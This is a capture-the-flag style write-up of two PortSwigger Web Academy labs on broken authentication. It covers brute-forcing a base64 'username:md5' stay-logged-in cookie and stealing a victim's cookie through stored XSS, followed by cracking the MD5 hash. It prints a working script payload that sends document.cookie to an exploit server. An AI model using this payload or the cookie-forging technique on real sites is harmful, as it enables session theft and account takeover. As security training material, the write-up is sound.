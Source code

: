 ```yaml
---
title: Other vulnerable Authentication Mechanismus
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2022-09-30 09:00:00 +0200
categories: [Web Application, Broken Authentication]
tags: [Notes, Web Application, Portswigger]
math: true
mermaid: true
image:
  src: 
  width: 694
  height: 515
  alt: image alternative text
---
```

# Intro
This post/writeup is all about the Authentication vulnerabilities or [Broken Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication) if we follow [OWASP](https://owasp.org/) naming scheme. 

I'll be using primarily [Portswigger Web Academy](https://portswigger.net/web-security/authentication) Labs, but i do intent do throw other labs and writeups here as well.

## TOC

- [Intro](#intro)
  - [TOC](#toc)
- [Brute-forcing a stay-logged-in cookie](#brute-forcing-a-stay-logged-in-cookie)
  - [Abusing `stay-logged-in` mechanismus](#abusing-stay-logged-in-mechanismus)
- [Offline password cracking (weak hash used for remember-me cookie)](#offline-password-cracking-weak-hash-used-for-remember-me-cookie)
  - [Enumeration first!](#enumeration-first)
  - [Exploitation next!](#exploitation-next)
 
# Brute-forcing a stay-logged-in cookie
>  This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.
> 
> To solve the lab, brute-force Carlos's cookie to gain access to his "My account" page.
> 
> Your credentials: wiener:peter
> 
> Victim's username: carlos
> 
> [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

Long story short. This is all about the vulnerable `remember me`/`stay-logged-in`functionality.

## Abusing `stay-logged-in` mechanismus

Let's login using `wiener:peter`. 
![picture 92](/assets/images/c3de592df71ec6ed1862aa69f7db5e40afa8f8632db991b0ab92b43699ac07ce.png)

We can see in the response that cookie that is being sent in response includes username and some sort of hash. This md5 hash is password, which is known = `peter`.

This hash persists then in the subsequent requests like `/my-account`. Let's try to bruteforce carlos's password hash in the cookie.

We can use `sniper` mode against `my-account` without session cookie!

For payload we can use the provied password list, we however need do hash he password, add a prefix which is `carlos:` and encode whole thing as base64

![picture 95](/assets/images/5fafc845a3952d4ab27db939c06e0f167ab844f55781c2e1545eb953c9583b29.png)

If everything has been done correctly, Intruder should be able to find the password:

![picture 93](/assets/images/06bf5917d5f0ee71864440174505b15eea3137634a27583c9eb5c91c01e1ed1b.png)  

Lab has been solved

![picture 94](/assets/images/1d7afa7f9c9e75d2410df73c7d5c74d9081b432db69be192ba0a86d089765d64.png)  

# Offline password cracking (weak hash used for remember-me cookie)

> This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.
> 
> Your credentials: wiener:peter
> Victim's username: carlos
> 
> **Learning path**
> 
> !!!!!If you're following our suggested learning path, please note that this lab requires some understanding of topics that we haven't covered yet. Don't worry if you get stuck; try coming back later once you've developed your knowledge further.!!!!!!

## Enumeration first!

Let's login first
![picture 96](/assets/images/4018c68cd599f0f02b42e929a4bba0f73997c1ad0cef417ec395532dba4ab52a.png)  

We're supposed to delete an accout: 
![picture 97](/assets/images/b2fd12ac206bd0a8b983f0bcf5e3ae576d65ebef900d31b69464742355857f93.png)  

If XSS should do cause a deletion, then we'd need a client to request for `/my-account/delete`

We however need to steal the credentials.

## Exploitation next!
For XSS we have a server available:

![picture 98](/assets/images/76f9d6ddf1433f39a0467b27481e77cc5bba2a41619d42e9ead85f8519cd8341.png)  

As we already know that there is a XSS, let's simply leave a message in the comment in one of the posts

![picture 99](/assets/images/6975072d1a762add5aac6bb5df61a0bd29bf82bee7beaed27c37f8d17f1ad285.png)  

Payload:
```
<script>document.location='https://exploit-0a79008a03044c6dc0753916018d0031.web-security-academy.net/c='+document.cookie</script>
```

If we check our Access logs we'd see something there:

![picture 100](/assets/images/c03375535b5c517ff1221cdb1ccd00553065a6d9c5588b4dda34eee461f55a1b.png)  

If we check the `stay-logged-in` token and send it to `Decoder` we can see it's carlos's token:

![picture 101](/assets/images/8ee439d90eaa64cebed1623dd07ae4176ab41657efdc6a7ca1adfccaed54aa25.png)  

Password can be found on google ==> `26323c16d5f4dabff3bb136f2460a943:onceuponatime` for carlos's user.

Now login and delete the Carlos!

![picture 102](/assets/images/c1f0d215900c190e28e00f0b6550e825f69d683aeebea575964f6db7585d7eee.png)  

It would be possible to delete Carlos using XSS, but it was not in focus in this lab!

